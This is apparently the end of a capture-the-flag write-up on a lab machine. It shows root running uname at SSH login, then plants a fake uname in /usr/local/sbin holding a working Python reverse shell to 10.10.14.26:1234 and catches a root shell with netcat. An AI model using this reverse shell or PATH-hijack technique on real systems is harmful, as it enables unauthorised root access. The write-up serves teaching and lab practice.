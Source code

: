### Exploit

Playing around with spawning sessions while looking at the pspy64 output, we can see that the machine does a call to uname straight after the env for the user is being set.

```
2019/09/01 11:43:33 CMD: UID=0    PID=4973   | run-parts --lsbsysinit /etc/update-motd.d 
2019/09/01 11:43:33 CMD: UID=0    PID=4974   | uname -rnsom 
2019/09/01 11:43:33 CMD: UID=0    PID=4975   | sshd: jkr [priv]  
```

Maybe we can taint the uname binary in the /usr/local/sbin folder and get a root shell!

Uname binary:
```
 ⚡ root@kali  ~/writeup  cat uname 
#!/usr/bin/env python

import subprocess
import os
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.26",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

Porting it over on the machine and moving it to the /usr/local/sbin directory, we can set up a listener on 1234, and catch the shell when uname is executed on a new ssh login.

```
 ⚡ root@kali  ~/writeup  nc -lvnp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.138.
Ncat: Connection from 10.10.10.138:36200.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# wc -c root.txt
33 root.txt
# whoami
root
```
Got a root shell! Learned quite a bit about file permissions and really to be observant about the different process running that can be useful for exploitation. Hope you learned as much from this box as I did!




